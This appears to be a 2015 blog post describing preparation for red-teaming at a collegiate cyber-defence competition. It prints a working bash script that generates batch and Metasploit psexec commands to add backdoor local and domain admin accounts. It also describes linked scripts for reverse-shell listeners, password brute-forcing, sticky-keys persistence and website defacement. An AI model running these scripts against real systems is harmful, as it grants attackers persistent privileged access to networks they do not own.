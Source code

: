```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
---
```


I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

### Kali
I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh).


Then, I made some manual tweaks:

* Change root password
* Enable autologin within `/etc/gdm3/daemon.conf`
* Disable screen lockout
* Add Leafpad and Screenshot to taskbar
* Alias `msfconsole='msfconsole -r /msfconsole.rc'`
* Add `* * * * * /payload_gen.sh` to crontab

Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.

```bash
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
```

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh)


### Metasploit
Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


* [intel.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc) - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
* [bounce](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc) - Restarts a reverse_tcp listener on 443.
* [bouncessl](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc) - Restarts a reverse_https listener on 443.
* [local500.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc) - Sets up for a brute force of the built-in 500 accounts. Modify with `file:///path/to/wordlist` on line 4.
* [winpersist.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - Sets up sticky keys, utilman, and display persistence using psexec_command.
* [msfconsole.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above



### Commands
The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan [here](http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html). 

In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 





### Defacement
Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
![I am invincible!]({{site.url}}/assets/prccdc2015-defacement.gif)
[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement)

Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     


### Prepping for Next Year
As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:

* **ndiff to monitor environment** - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.
* **Low-hanging fruit scans** - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. 
* **Script to remove users from admin groups** - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.
* **moar lulz** - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...

If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
    